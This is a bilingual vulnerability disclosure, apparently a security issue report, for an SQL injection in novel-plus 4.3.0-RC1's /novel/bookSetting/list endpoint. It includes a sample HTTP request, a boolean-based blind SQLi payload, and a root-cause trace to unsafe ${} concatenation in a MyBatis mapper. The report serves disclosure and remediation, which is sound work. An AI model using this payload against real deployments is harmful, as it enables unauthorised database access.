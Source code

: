 ## In the novel-plus version 4.3.0-RC1, there is an SQL injection vulnerability in the "/novel/bookSetting/list" interface.

### 版本 / Version

4.3.0-RC1

### 什么问题 / What's the problem

In the novel-plus system, there exists an SQL injection vulnerability in the /novel/bookSetting/list interface.

在novel-plus系统中/novel/bookSetting/list接口存在SQL注入漏洞

### 如何复现此问题 / How to reproduce this problem

#### 功能点 / Function points

![](../img/1.png)

#### 请求信息 / Request message:

```
GET /novel/bookSetting/list?type=3&limit=10&offset=0&sort=book_id&order=desc HTTP/1.1
Host: 127.0.0.1:8088
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: application/json
Referer: http://127.0.0.1:8088/novel/bookSetting
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3284050d-006d-47f0-83ff-82501693fe3e
Connection: close


```

攻击载荷 / payload:`AND 2111=(SELECT(CASE WHEN(2111=2111) THEN 2111 ELSE(SELECT  3865 UNION SELECT 6957) END))-- -`

![](../img/2.png)

There you can see it!

### 系统环境 (操作系统/MySQL版本/浏览器等) / System environment (OS/MySQL/Browser etc)

Mysql 8.0.14
Windows
JDK1.8.0_392
Chrome

### 说明 / Suggested description

In the novel-plus version 4.3.0-RC1, there is an SQL injection vulnerability in the "/novel/bookSetting/list" interface.
在novel-plus 4.3.0-RC1版本中/novel/bookSetting/list接口存在SQL注入漏洞
Failed to legally check parameters, resulting in SQL injection vulnerabilities.
未能合法检查参数从而导致sql注入漏洞.

#### 漏洞类型 / Vulnerability Type

SQLi

#### 产品供应商 / Vendor of Product

https://github.com/201206030/novel-plus/tree/v4.3.0-RC1

#### 受影响的产品代码库 / Affected Product Code Base

=4.3.0-RC1

#### 受影响组件 / Affected Component

/novel/bookSetting/list

#### 攻击方式 / Attack Type

Remote

### 漏洞成因 / Cause of vulnerability

In the 'com. java2nb. cover. controller. BookSettingController # list', receive parameters.

在`com.java2nb.novel.controller.BookSettingController#list`中，接收参数

![](../img/3.png)

Enter the service layer `com.java2nb.cover.service.impl.BookSettingServiceImpl#list`.

进入service层`com.java2nb.novel.service.impl.BookSettingServiceImpl#list`

![](../img/4.png)

In the end, it came to Mapper where ${was used for concatenation, so there is an SQL injection vulnerability present here.

最终来到Mapper中，此处使用了${进行拼接，所以此处存在了SQL注入漏洞

![](../img/5.png)

The end,thanks!

